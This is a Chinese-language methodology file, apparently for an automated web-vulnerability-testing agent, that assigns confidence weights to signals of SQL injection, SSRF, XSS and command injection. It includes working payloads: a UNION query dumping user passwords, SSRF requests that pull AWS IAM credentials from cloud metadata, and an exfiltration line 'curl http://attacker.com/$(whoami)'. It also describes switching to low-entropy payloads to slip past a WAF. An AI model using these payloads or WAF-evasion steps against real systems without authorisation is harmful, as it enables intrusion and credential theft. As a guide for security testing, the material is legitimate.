

# 信号概率模型 (Signal Probability Model)

> **核心认知**: 单个弱信号不足以确认漏洞，多信号加权才能提升置信度
> **决策原则**: ≥70% 确认 / 40-69% 灰色追加 / <40% 放弃
> **对照组增强**: 正常请求作为 baseline，差异对比 +20% 置信度

---

## 0. 为什么需要概率模型

### 0.1 传统判断的问题（二值决策）

```
错误案例：
响应差异 → 直接确认 SQLi → 标 Critical → 报告
实际情况：WAF 拦截导致的差异，不是 SQLi
```

**问题**:
- 单信号容易误判（响应差异可能是缓存 / WAF / 负载均衡）
- 没有量化置信度（导致假阳性 / 低质量报告）
- 不支持灰色信号的渐进式确认

---

### 0.2 概率模型的优势

```
正确流程：
1. 单引号 → 500 (权重 30%)
2. 布尔差异 → body_length 变化 (权重 25%)
3. 时间盲注 → 延迟 5s (权重 30%)
4. 对照组 → 正常请求无延迟 (+20%)
→ 总置信度 = 30% + 25% + 30% + 20% = 105% (cap at 100%)
→ 确认 SQLi
```

**优势**:
- 多信号交叉验证
- 量化置信度（支持 SRC 报告分级）
- 对照组增强（排除环境噪声）
- 支持 WAF 感知（配合 adaptive-waf-evasion.md）

---

## 1. 信号权重表（按漏洞类型）

### 1.1 SQL 注入 (SQLi)

| 信号 | 判断条件 | 权重 | 备注 |
|------|---------|------|------|
| **单引号报错** | `'` → 500 + SQL error message | **40%** | 最强信号，但部分 WAF 会拦 |
| **布尔差异** | `AND 1=1` vs `AND 1=2` body_length 差异 > 100 bytes | **30%** | 需要 2 次请求对比 |
| **时间盲注** | `SLEEP(5)` → duration ≥ 4.8s | **35%** | 最可靠，但慢 |
| **Union 列数对齐** | `UNION SELECT NULL,...` 无报错 | **25%** | 需要多次试探 |
| **数据库指纹** | `@@version` / `version()` 回显 | **50%** | 直接确认 DB 类型 |
| **数据外带** | Union 提取到真实数据 | **60%** | 高置信度 |
| **对照组正常** | 正常参数无异常 | **+20%** | 增强因子 |

**决策流程**:
```
1. First-pass: 单引号 (40%) → ≥40% → 灰色信号
2. 追加: 布尔差异 (30%) → 70% → 确认
3. 对照组: 正常请求 (+20%) → 90% → 高置信度确认
```

---

### 1.2 SSRF (Server-Side Request Forgery)

| 信号 | 判断条件 | 权重 | 备注 |
|------|---------|------|------|
| **响应包含外部资源** | 回显 HTTP 响应体 / 图片 binary | **50%** | 最直接 |
| **响应时间差异** | 内网 IP 快 vs 外网 IP 慢 | **30%** | 需要对比 |
| **云元数据成功** | 169.254.169.254 返回 JSON | **70%** | 直接确认 + 高危 |
| **内网端口存活** | 6379/9200 等返回服务指纹 | **40%** | 证明内网可达 |
| **错误信息泄露** | `Connection refused` / `No route to host` | **25%** | 间接证明尝试连接 |
| **DNS OOB 回调** | dnslog 收到查询 | **50%** | 盲 SSRF 确认 |
| **HTTP OOB 回调** | Webhook 收到 HTTP 请求 | **55%** | 比 DNS 更高置信度 |
| **对照组正常** | 正常 URL 无异常 | **+20%** | 增强因子 |

**决策流程**:
```
1. First-pass: 内网 IP 响应时间差异 (30%) → <40% → 灰色
2. 追加: 错误信息泄露 (25%) → 55% → 灰色
3. 追加: 云元数据 (70%) → 125% (cap 100%) → 高置信度确认
```

---

### 1.3 XSS (Cross-Site Scripting)

| 信号 | 判断条件 | 权重 | 备注 |
|------|---------|------|------|
| **直接反射** | Payload 原样出现在 HTML | **35%** | 需要检查是否在标签内 |
| **标签内反射** | `<script>` / `<svg>` 等标签内 | **50%** | 可执行上下文 |
| **事件处理器** | `onload=` / `onerror=` 反射 | **55%** | 直接触发 |
| **浏览器弹窗** | Chrome MCP 检测到 `alert()` 弹窗 | **80%** | 实际执行证明 |
| **DOM 修改** | DOM 树变化（检测到新节点） | **60%** | DOM XSS 确认 |
| **绕过 WAF 成功** | 低熵 Payload 通过 | **+15%** | 增强因子（配合 adaptive-waf-evasion） |
| **对照组正常** | 普通字符串无反射 | **+20%** | 增强因子 |

**决策流程**:
```
1. First-pass: 直接反射 (35%) → <40% → 灰色
2. 追加: 标签内反射 (50%) → 85% → 确认
3. 浏览器验证: Chrome MCP 弹窗 (80%) → 直接跳到 100% → 高置信度确认
```

---

### 1.4 CMDI (Command Injection)

| 信号 | 判断条件 | 权重 | 备注 |
|------|---------|------|------|
| **时间延迟** | `sleep 5` → duration ≥ 4.8s | **40%** | 最简单 |
| **命令回显** | `whoami` / `id` 输出在响应中 | **70%** | 直接证明 |
| **错误信息** | `sh: command not found` / `syntax error` | **30%** | 间接证明 |
| **DNS OOB** | `nslookup <random>.oast` 收到查询 | **50%** | 盲注确认 |
| **HTTP OOB** | `curl http://attacker.com/$(whoami)` 收到请求 | **60%** | 带外数据提取 |
| **文件写入成功** | 写 `/tmp/test` 后读取成功 | **65%** | 高危证明 |
| **对照组正常** | 正常参数无延迟 | **+20%** | 增强因子 |

**决策流程**:
```
1. First-pass: 时间延迟 (40%) → ≥40% → 灰色
2. 追加: 错误信息 (30%) → 70% → 确认
3. 追加: 命令回显 (70%) → 直接跳到 100% → 高置信度确认
```

---

## 2. 决策门槛（三档分级）

| 置信度区间 | 判断 | 行动 | 标签 |
|-----------|------|------|------|
| **≥ 70%** | 🟢 **确认漏洞** | 进入深度利用（Phase 3） | `[CONFIRMED]` |
| **40-69%** | 🟡 **灰色信号** | 追加 2-3 个正交信号 | `[GRAY_SIGNAL]` |
| **< 40%** | 🔴 **放弃** | 记录后跳过（除非 deep 档） | `[INSUFFICIENT_SIGNAL]` |

**正交信号**: 不同检测维度的信号（如时间 + 布尔 + 错误，不能是同类信号叠加）

---

## 3. 对照组加权机制（+20% 规则）

### 3.1 为什么需要对照组

**问题**: 单独的异常信号可能是环境噪声（网络抖动 / 缓存 / 负载均衡）

**解决**: 每次测试前/后发送正常请求作为 baseline

### 3.2 对照组规则

```python
# 伪代码
def test_with_control(param, attack_payload, normal_payload):
    # 1. 发送对照组（正常请求）
    control = curl(f"{param}={normal_payload}")
    
    # 2. 发送测试请求
    test = curl(f"{param}={attack_payload}")
    
    # 3. 计算差异
    delta_status = (control.status != test.status)
    delta_length = abs(control.body_length - test.body_length)
    delta_time = abs(control.duration - test.duration)
    
    # 4. 判断是否显著
    if delta_length > 100 or delta_time > 2000:  # 100 bytes 或 2 秒
        confidence += 20  # 对照组增强
    
    return confidence
```

### 3.3 实战案例

```
无对照组:
?id=1' → 500 (权重 40%) → 灰色信号 → 需要追加测试

有对照组:
?id=1  → 200, 5432 bytes, 120ms (baseline)
?id=1' → 500, 2341 bytes, 118ms (test)
→ 状态码差异 + body 差异 → +20% → 60% → 灰色信号（仍需追加，但更接近确认）

追加布尔测试:
?id=1 AND 1=1 → 200, 5432 bytes (同 baseline)
?id=1 AND 1=2 → 200, 3210 bytes (差异显著)
→ +30% → 90% → 确认 SQLi
```

---

## 4. 灰色信号处理流程

### 4.1 灰色信号的三种命运



### 4.2 追加信号选择表

| 初始信号 | 置信度 | 追加信号 1 | 追加信号 2 | 目标置信度 |
|---------|--------|-----------|-----------|-----------|
| SQLi 单引号报错 | 40% | 布尔差异 (30%) | 对照组 (+20%) | 90% ✅ |
| SSRF 时间差异 | 30% | 云元数据 (70%) | — | 100% ✅ |
| XSS 直接反射 | 35% | 标签内反射 (50%) | 对照组 (+20%) | 105% → 100% ✅ |
| CMDI 时间延迟 | 40% | DNS OOB (50%) | 对照组 (+20%) | 110% → 100% ✅ |

---

## 5. 与 adaptive-waf-evasion 联动

### 5.1 WAF 感知降权

当检测到 WAF 激活（见 `adaptive-waf-evasion.md §3`）：

| WAF 状态 | 权重调整 | 说明 |
|---------|---------|------|
| **无 WAF** | 权重不变 | 标准流程 |
| **L1 签名拦截** | 高熵 Payload 权重 -10% | 降低对被拦 Payload 的信任 |
| **L2 异常检测激活** | 所有 Payload 权重 -15% | 需要更多信号确认 |
| **L3 行为封禁** | 暂停测试 | HITL 决策 |

### 5.2 Payload 熵感知权重

配合 `adaptive-waf-evasion.md §1` 的熵计算：

| Payload 熵 | 通过 WAF | 权重调整 | 备注 |
|-----------|---------|---------|------|
| **< 2.5** (低熵) | ✅ 通过 | **+10%** | 更可信（不容易误报） |
| **2.5-3.5** (中熵) | ⚠️ 可能拦 | 不变 | 标准权重 |
| **> 3.5** (高熵) | 🔴 大概率拦 | **-15%** | 被拦后降低信任 |

**实战案例**:
```
Payload: id=1' AND 1=1 (熵 3.17)
结果: 403 (被 WAF 拦)
权重: 30% - 15% = 15% (从确认信号降级为弱信号)

切换: id=1'||' (熵 2.1，最低熵)
结果: 200, body_length 差异
权重: 30% + 10% (低熵) + 20% (对照组) = 60% → 灰色信号
```

### 5.3 动态 Payload 选择

```python
# 伪代码：根据置信度选择 Payload
def select_payload(current_confidence, waf_active):
    if current_confidence < 40:
        # 需要强信号 → 用最直接的 Payload
        if not waf_active:
            return "id=1' AND SLEEP(5)--"  # 高权重 (35%)
        else:
            return "id=1'"  # 最低熵 (40%)
    
    elif 40 <= current_confidence < 70:
        # 灰色信号 → 用正交信号
        if "time_tested" not in history:
            return "id=1 AND SLEEP(5)"  # 时间信号 (35%)
        elif "boolean_tested" not in history:
            return "id=1 AND 1=2"  # 布尔信号 (30%)
        else:
            return "id=1 UNION SELECT NULL"  # Union 信号 (25%)
    
    else:  # >= 70%
        # 已确认 → 进入深度利用
        return "id=-1 UNION SELECT user,pass FROM users"
```

---

## 6. 记录格式（写入 assets.md）

### 6.1 单信号记录

```markdown
## 漏洞: SQLi @ /api/products?id=

### 信号序列

| # | Payload | Status | Body Length | Duration | 信号 | 权重 | 累计置信度 |
|---|---------|--------|-------------|----------|------|------|-----------|
| 0 | `id=1` (对照组) | 200 | 5432 | 120ms | — | — | — |
| 1 | `id=1'` | 500 | 2341 | 118ms | 单引号报错 | 40% | 40% 🟡 |
| 2 | `id=1 AND 1=1` | 200 | 5432 | 125ms | 布尔 True | — | — |
| 3 | `id=1 AND 1=2` | 200 | 3210 | 122ms | 布尔 False | 30% | 70% 🟢 |
| 4 | 对照组对比 | — | — | — | 差异显著 | +20% | 90% 🟢 |

**判断**: ✅ 确认 SQLi (MySQL)
**置信度**: 90% (High)
**标签**: `[CONFIRMED]` `[HIGH_CONFIDENCE]`
```

### 6.2 多参数汇总

```markdown
## Phase 1 信号汇总

| 参数 | 漏洞类型 | 最高置信度 | 状态 | 备注 |
|------|---------|-----------|------|------|
| `/api/products?id=` | SQLi | 90% | 🟢 确认 | MySQL, Boolean + Error |
| `/api/proxy?url=` | SSRF | 100% | 🟢 确认 | 云元数据成功 (AWS AK 泄露) |
| `/search?q=` | XSS | 55% | 🟡 灰色 | 反射但未在标签内，需浏览器验证 |
| `/upload?file=` | Upload | 35% | 🔴 放弃 | 仅 .jpg 白名单，未发现绕过 |
```

---

## 7. 集成到 P1 协议

### 更新 `agent-protocol.md §P1`

```markdown
## P1: 信号预检（概率模型版）

1. **First-pass 测试**:
   - 发送对照组 + 测试 Payload
   - 记录三要素: status_code / body_length / duration
   - 计算初始权重（见 signal-probability-model.md §1）

2. **置信度判断**:
   - ≥70% → 标记 [CONFIRMED]，进入 Phase 2 深度利用
   - 40-69% → 标记 [GRAY_SIGNAL]，追加 2-3 个正交信号
   - <40% → 标记 [INSUFFICIENT_SIGNAL]，放弃（除非 deep 档）

3. **WAF 感知**:
   - 403/429 → 识别 WAF → 加载 adaptive-waf-evasion.md 策略
   - 计算 Payload 熵 → 调整权重（低熵 +10% / 高熵 -15%）
   - 被拦 3 次 → 切换最低熵 Payload 集

4. **对照组增强**:
   - 每个测试信号必须有对照组（正常参数）
   - 差异显著 → +20% 置信度

5. **记录格式**:
   - 写入 assets.md（见 signal-probability-model.md §6）
   - 包含: Payload / 三要素 / 信号类型 / 权重 / 累计置信度
```

---

## 8. Grep 速查

```bash
# 查询漏洞类型权重表
grep -A 20 "SQL 注入 (SQLi)" references/signal-probability-model.md
grep -A 20 "SSRF" references/signal-probability-model.md
grep -A 15 "XSS" references/signal-probability-model.md

# 查询决策门槛
grep -A 10 "决策门槛" references/signal-probability-model.md

# 查询对照组规则
grep -A 25 "对照组加权机制" references/signal-probability-model.md

# 查询 WAF 联动
grep -A 30 "adaptive-waf-evasion 联动" references/signal-probability-model.md

# 查询记录格式
grep -A 40 "记录格式" references/signal-probability-model.md
```

---

## 9. 实战案例

### 案例 1: SQLi 灰色信号追加确认

```
[Step 1] First-pass
→ Payload: id=1'
→ Result: 500, body_length 变化
→ Signal: 单引号报错 (40%)
→ Status: 🟡 灰色信号

[Step 2] 对照组
→ Payload: id=1 (正常)
→ Result: 200, body_length 5432 bytes
→ Signal: 对照组 (+20%)
→ Confidence: 60% → 仍是灰色

[Step 3] 追加布尔测试
→ Payload: id=1 AND 1=1 vs id=1 AND 1=2
→ Result: body_length 差异 2222 bytes
→ Signal: 布尔差异 (30%)
→ Confidence: 90% 🟢 确认 SQLi
```

### 案例 2: SSRF 云元数据直接确认

```
[Step 1] First-pass
→ Payload: url=http://127.0.0.1
→ Result: 200, 但响应空白
→ Signal: 响应时间差异 (30%)
→ Status: 🟡 灰色信号

[Step 2] 云元数据测试
→ Payload: url=http://169.254.169.254/latest/meta-data/
→ Result: 200, body 包含 "ami-id" / "iam/"
→ Signal: 云元数据成功 (70%)
→ Confidence: 100% 🟢 高置信度确认（跳过对照组）

[Step 3] AK 提取
→ Payload: url=http://169.254.169.254/latest/meta-data/iam/security-credentials/role-name
→ Result: 200, body 包含 AccessKeyId / SecretAccessKey
→ Signal: 数据外带 (60%)
→ Final: Critical SSRF + 云凭证泄露
```

### 案例 3: WAF 环境的动态降级

```
[Step 1] First-pass (标准 Payload)
→ Payload: id=1' AND 1=1 (熵 3.17)
→ Result: 403 Forbidden (阿里云盾)
→ Signal: 被拦 (权重 30% - 15% = 15%)
→ Status: 🔴 低于 40%，但不放弃

[Step 2] 切换最低熵 Payload
→ Payload: id=1' (熵 1.8)
→ Result: 500, SQL error
→ Signal: 单引号报错 (40% + 10% 低熵加成 = 50%)
→ Status: 🟡 灰色

[Step 3] 对照组 + 追加
→ Payload: id=1 (对照组) → 200
→ Payload: id=1'||' (熵 2.1) → 200, body_length 差异
→ Signal: 布尔差异 (30%) + 对照组 (+20%)
→ Confidence: 50% + 30% + 20% = 100% 🟢 确认

[总结]
初始高熵 Payload 被拦 → 切换最低熵 → 成功绕过 WAF → 概率模型避免了"403 就放弃"的错误决策
```

---

## 10. 常见误区

### ❌ 误区 1: 单信号即确认

```
错误: id=1' → 500 → 直接标记 SQLi Critical
正确: id=1' → 500 (40%) → 灰色 → 追加布尔/时间 → 70%+ → 确认
```

### ❌ 误区 2: 忽略对照组

```
错误: id=1' → 响应变化 → 确认
正确: id=1 (baseline) → id=1' (test) → 对比差异 → +20% 置信度
```

### ❌ 误区 3: 被拦即放弃

```
错误: id=1' AND 1=1 → 403 → 放弃该参数
正确: 403 → 识别 WAF → 切换最低熵 Payload → 重新测试
```

### ❌ 误区 4: 权重简单相加

```
错误: 单引号 (40%) + 单引号报错 (40%) = 80% → 确认
正确: 单引号报错已包含单引号信号，不能重复计算 → 需要正交信号
```

---

**版本**: v1.0  
**更新日期**: 2026-06-08  
**关联文件**: `adaptive-waf-evasion.md` / `agent-protocol.md §P1` / `assets.md` 记录格式
